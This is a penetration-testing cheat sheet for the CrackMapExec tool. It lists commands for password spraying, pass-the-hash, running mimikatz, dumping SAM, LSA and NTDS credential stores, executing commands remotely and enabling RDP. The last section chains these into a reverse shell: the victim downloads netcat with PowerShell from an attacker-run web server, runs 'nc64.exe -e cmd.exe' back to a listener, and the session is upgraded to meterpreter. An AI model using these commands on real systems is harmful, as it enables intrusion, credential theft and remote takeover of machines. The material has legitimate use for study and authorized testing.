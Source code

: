 # crackmapexec

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

## CrackMapExec full cheat sheet

{% embed url="https://cheatsheet.haax.fr/windows-systems/exploitation/crackmapexec/" %}

## Installation

Install in python environment:

```
apt-get install -y libssl-dev libffi-dev python-dev build-essential
pip install --user pipenv
git clone --recursive https://github.com/byt3bl33d3r/CrackMapExec
 cd CrackMapExec && pipenv install
 pipenv shell
 python setup.py install
 crackmapexec
```

![](<../../../../.gitbook/assets/image (256).png>)

install on system (might have some problems):

```
apt install crackmapexec
```

the overal syntax is like this:

```
crackmapexec [protocol] [target] -u [username] -p [password] -H [hash or hash flie]
```

example:

```
crackmapexec smb 192.168.56.115 -u Administrator -H f4750eeb6dd87b3e60faa9cc23809750 cmd.exe
```

### logs and output files

```
/root/.cme/logs/
```

### Target Formats

```
crackmapexec <protocol> ms.evilcorp.org
crackmapexec <protocol> 192.168.1.0 192.168.0.2
crackmapexec <protocol> 192.168.1.0/24
crackmapexec <protocol> 192.168.1.0-28 10.0.0.1-67
crackmapexec <protocol> ~/targets.txt
```

Using Credentials

```
crackmapexec <protocol> <target(s)> -u username -p password
```

{% hint style="info" %}
When using usernames or passwords that contain special symbols, wrap them in single quotes to make your shell interpret them as a string
{% endhint %}

example:

```
crackmapexec <protocol> <target(s)> -u username -p 'Admin!123@'
```

{% hint style="info" %}
if credentials start with ‘-’ use the long format
{% endhint %}

```
crackmapexec <protocol> <target(s)> -u='-username' -p='-Admin!123@'
```

### Using a credential set from the database

```
crackmapexec <protocol> <target(s)> -id <cred ID(s)>
```

### Brute Forcing & Password Spraying

```
crackmapexec <protocol> <target(s)> -u username1 -p password1 password2
crackmapexec <protocol> <target(s)> -u username1 username2 -p password1
crackmapexec <protocol> <target(s)> -u /userlist -p /passlist
crackmapexec <protocol> <target(s)> -u /userlist -H /hashlist
```

### Viewing available modules for a Protocol

```
cme <protocol> -L
```

#### using modules:

```
cme <protocol> <target(s)> -M <module name>
```

#### Viewing module options:

```
cme <protocol> -M <module name> --options
```

#### Using module options:

Module options are specified with the -o flag

```
cme <protocol> <target(s)> -u Administrator -p 'P@ssw0rd' -M mimikatz -o COMMAND='privilege::debug'
```

### enumerate smb status of all systems in a domain

```
crackmapexec  smb 192.168.56.1/24
```

### pass the hash

```
crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH
crackmapexec smb <target(s)> -u username -H NTHASH
```

### pass the password

```
crackmapexec smb 192.168.56.1/24 -u 'hesher' -p 'password123!'
```

## Options & Modules

### dump sam file from all owned machines

```
--sam
```

### enumerate the domain’s password policy

```
--pass-pol
```

### dump lsa hashes

```
--lsa
```

### dump ntds file

```
--ntds drsuapi
```

### enumerate all AD objects including users and groups by guessing every resource identifier (RID)

```
 --rid-brute
```

### enumerate AVs in the domain

```
-M enum_avproducts
```

### execute a command on victim machine

```
-X whoami
```

### execute powershell commands

```
 -X '$PSVersionTable'
```

### NULL Sessions

```
crackmapexec smb <target(s)> -u '' -p ''
```

### enum shares

```
--shares
```

### enumerate the disks on the hosts

```
--disks
```

### enumerate existing sessions on the hosts

```
--sessions
```

### list running processes

```
-X get-process
```

### enum the directory structure

```
-x "dir c:\\"  --exec-method smbexec
```

### enable RDP

```
 -M rdp -o ACTION=enable
 xfreerdp /u:"hesher" /v:192.168.56.115:3389
```

## netcat or meterpreter reverse shell

First we setup our web server using Python's SimpleHTTPServer on port 443

```
python -m SimpleHTTPServer 443
```

upload the file ( download with powershell on victim)

```
crackmapexec smb 192.168.56.115 -u 'hesher' -p 'password123!' -X "(New-Object System.Net.WebClient).DownloadFile('http://192.168.56.1:443/nc64.exe','c:\nc64.exe')"
```

run msf and setup a multi handler

```
use exploit/multi/handler
set payload windows/x86/shell/reverse_tcp
```

or nc listener

```
ncat --verbose --listen 443 --keep-open --max-conns 1 --nodns
```

run nc on victim side

```
crackmapexec smb 192.168.56.115 -u 'hesher' -p 'password123!' -X "c:\nc64.exe  -e cmd.exe 192.168.56.1 443"
```

upgrade to meterpreter session

```
Ctrl+z
sessions -u [id]
```
